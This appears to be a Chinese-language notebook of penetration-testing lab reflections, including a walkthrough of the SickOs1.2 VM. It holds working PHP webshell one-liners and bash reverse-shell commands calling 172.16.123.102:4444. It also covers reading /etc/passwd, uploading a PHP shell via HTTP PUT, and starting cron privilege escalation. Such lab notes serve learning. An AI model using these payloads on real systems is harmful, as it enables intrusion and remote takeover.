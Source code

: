 感想：

（一句话必须是echo \'\<?php \@eval(\$\_POST\[\'cmd\'\]);?\>\'
/uploaded_images/s.php 必须是\'而不是\"）细节要注意

paned.php代码审计不过关只能看解析

没想到php也可以生成木马访问就可以反弹后门shell

细节这里表示get而是post传参file=/etc/passwd;

/var/www/phpmy/config.inc.php 里面有账户信息没搞懂但是是个好办法

\<?php system(\$\_GET\[cmd\]);?\>是可以执行命令的而\<?php
\@eval(\$\_GET\[cmd\]);?\>不行

[echo 升级版bash反弹 （学会了）]{.mark}

echo \"bash -i \>& /dev/tcp/172.16.123.102/4444 0\>&1\" \| bash

\<?php system(\"bash -c \'bash -i \>& /dev/tcp/172.16.123.102/4444
0\>&1\' \")?\>(利用php语句bash 反弹shell )

**SickOs1.2**

信息搜集：

开启了22，80端口没有如何破绽

只有个奇奇怪怪的test(有猫腻)

[网站是 lighttpd/1.4.28]{.mark}

[使用nmap脚本扫描/test目录查看/test支持的方法（知识盲区）]{.mark}

nmap \--script http-methods \--script-args
http-methods.url-path=\'/test\' 192.168.30.208

发现可以有PUT方法任意写文件漏洞（知识盲区）

**漏洞利用：**

[网站是 lighttpd/1.4.28没什么漏洞]{.mark}

![截图.png](D:\tools\Tools\Obsidian\sjqyyds\sjqyyds17\附件\靶机渗透思路和感想/media/image13.png){width="5.430555555555555in"
height="3.0546883202099737in"}

将get传参改成PUT然后在/test/加a.php 再在下面写上php代码

这样就成了

![截图.png](D:\tools\Tools\Obsidian\sjqyyds\sjqyyds17\附件\靶机渗透思路和感想/media/image14.png){width="5.430555555555555in"
height="3.0546883202099737in"}

照着这样我们就拿到了后台

**本地提权：**

**查看/etc/cron\*下所含的所有文件**

crontab
是用来让使用者在固定时间或固定间隔执行程序之用，换句话说，也就是类似使用者的时程表
（知识盲区）

